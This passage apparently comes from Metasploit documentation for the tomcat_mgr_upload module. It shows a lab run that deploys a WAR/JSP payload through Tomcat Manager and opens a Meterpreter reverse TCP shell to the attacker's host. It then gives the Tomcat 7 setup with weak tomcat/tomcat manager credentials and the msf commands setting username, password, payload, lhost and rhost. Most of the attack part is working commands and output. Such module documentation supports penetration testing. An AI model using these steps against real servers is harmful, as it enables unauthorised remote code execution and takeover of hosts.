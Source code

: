     [*] Tomcat Manager found running on linux platform and x64 architecture
    [!] No active DB -- Credential data will not be saved!
    [*] 192.168.2.156:8080 The target appears to be vulnerable.
    msf exploit(tomcat_mgr_upload) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.117:4444 
    [*] Retrieving session ID and CSRF token...
    [*] Finding CSRF token...
    [*] Uploading and deploying biytXntmq4Dtie0ulwwT...
    [*] Uploading 6082 bytes as biytXntmq4Dtie0ulwwT.war ...
    [!] No active DB -- Credential data will not be saved!
    [*] Executing biytXntmq4Dtie0ulwwT...
    [*] Executing /biytXntmq4Dtie0ulwwT/rmslIdWH4LwPZlMkHipzUah.jsp...
    [*] Finding CSRF token...
    [*] Undeploying biytXntmq4Dtie0ulwwT ...
    [*] Sending stage (49409 bytes) to 192.168.2.156
    [*] Meterpreter session 1 opened (192.168.2.117:4444 -> 192.168.2.156:55062) at 2017-01-15 20:29:42 -0500
    
    meterpreter > sysinfo
    Computer    : Ubuntu14
    OS          : Linux 4.2.0-27-generic (amd64)
    Meterpreter : java/linux
    ```

### Tomcat7 (7.0.68) - Ubuntu server 16.04 64bit
Of note, as of Tomcat 7, the permission role `manager` has been divided into several sub-roles.  Each sub role the user has will change which `path` variable for exploitation.

#### Setup
1. Install Tomcat and dependencies: `apt-get install tomcat7 tomcat7-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat7/tomcat-users.xml` to add:

    ```
    <role rolename="manager-gui"/>
    <user username="tomcat" password="tomcat" roles="manager-gui"/>
    ```

2. Restart the service if a user was added/changed: `sudo service tomcat7 restart`

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_upload
    msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp 
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_upload) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
    rhost => 192.168.2.118
    msf exploit(tomcat_mgr_upload) > set rport 8087
    rport => 8087
    msf exploit(tomcat_mgr_upload) > check
    